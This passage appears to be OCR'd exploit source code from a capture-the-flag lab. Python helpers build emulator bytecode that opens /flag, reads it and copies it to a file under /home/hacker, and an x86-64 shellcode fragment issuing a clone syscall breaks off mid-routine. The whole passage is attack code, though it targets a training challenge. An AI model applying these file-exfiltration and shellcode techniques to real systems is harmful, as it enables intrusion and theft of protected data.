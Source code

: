 ```python
    buffer += write_register(Regs.c, value=count)
    buffer += syscall(Syscalls.WRITE_MEM, out_reg=Regs.a)
    return buffer

def store_string(addr, string):
    assert(type(string) == bytes)
    buffer = b''
    for i, b in enumerate(string):
        buffer += write_register(Regs.a, b)
        buffer += write_register(Regs.b, addr + i)
        buffer += store_in_memory(addr=Regs.b, register=Regs.a)
    return buffer

def gen_yancode(adjusted=False):
    flag_path = b'/flag\x00'
    flag_addr = 0
    flag_content_addr = flag_addr + len(flag_path)
    max_size = 0x80
    out_file_path = b'/home/hacker/OUT\x00'
    out_file_addr = max_size
    
    with open(out_file_path[:-1], 'wb') as f:
        pass

    yancode = b''
    # Store "flag" in mem[0]
    yancode += store_string(addr=flag_addr, string=flag_path)
    # open("/flag", O_RDONLY, 0)
    yancode += open_file(file_addr=flag_addr)
    # read(fd, &mem[0], 0x50)
    yancode += read_to_memory(fd=Regs.a, offset=flag_content_addr, count=max_size, adjusted=adjusted)

    # Store out filename in mem[0x80]
    yancode += store_string(addr=out_file_addr, string=out_file_path)
    yancode += open_file(file_addr=out_file_addr, flags=2)
    yancode += write_from_memory(fd=Regs.a, offset=flag_content_addr, count=max_size)
    
    yancode += b'\x00' * (MAX_YANCODE_SIZE - len(yancode))
    return yancode


SHELLCODE = '''
read_mmap:
mov rbx, {0}
mov rcx, [rbx]
mov [rip + saved_mmap_addr], rcx

do_clone:
mov r9, QWORD PTR fs:0x10
xor r8, r8
lea r10, [r9 + 0x2d0]
xor rdx, rdx
xor rsi, rsi
mov rdi, 0x1200011
mov rax, 56
syscall
cmp rax, 0
jne parent

child:
mov rbx, [rip + saved_mmap_addr]
add rbx, 72
```

[linux-kernel-labs-vma]: https://linux-kernel-labs.github.io/refs/pull/222/merge/labs/memory_mapping.html
[litux-vma]: https://litux.nl/mirror/kerneldevelopment/0672327201/ch14lev1sec2.html